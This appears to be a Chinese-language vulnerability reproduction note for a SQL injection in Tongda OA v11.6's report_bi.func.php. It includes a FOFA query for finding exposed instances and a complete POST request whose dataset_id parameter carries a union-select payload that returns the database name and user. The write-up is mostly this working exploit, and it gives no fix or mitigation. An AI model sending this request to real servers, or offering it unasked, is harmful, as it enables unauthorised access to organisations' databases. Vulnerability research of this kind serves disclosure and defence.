

# 通达OA v11.6 report_bi.func.php SQL注入漏洞

## 漏洞描述

通达OA v11.6 report_bi.func.php 存在SQL注入漏洞，攻击者通过漏洞可以获取数据库信息

## 漏洞影响

```
通达OA v11.6
```

## FOFA

```
app="TDXK-通达OA"
```

## 漏洞复现

登陆页面


发送请求包执行SQL语句

```
POST /general/bi_design/appcenter/report_bi.func.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 113
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

_POST[dataset_id]=efgh%27-%40%60%27%60%29union+select+database%28%29%2C2%2Cuser%28%29%23%27&action=get_link_info&
```

